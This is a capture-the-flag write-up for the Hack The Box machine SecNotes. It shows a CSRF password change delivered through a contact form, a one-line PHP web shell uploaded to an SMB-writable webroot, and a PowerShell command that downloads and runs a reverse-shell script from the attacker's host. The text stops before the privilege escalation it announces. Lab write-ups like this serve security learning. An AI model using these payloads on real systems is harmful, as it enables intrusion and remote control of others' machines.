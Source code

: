 SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver

<img src="images/webserve.png">

followed by a connection on my listener

<img src="images/hit.png">

Checking out `c:\users\tyler\desktop` we find `user.txt` but also an interesting file named `bash.lnk`. Reading the file we can pick out `bash.exe` in `c:\Windows\System32`. This usually indicates Windows Subsystem for Linux is installed. 

<img src="images/bashlnk.png">

I'll play around with `bash` and see what I can find in the Linux filesystem.

<img src="images/root.png">

<img src="images/bashhist.png">

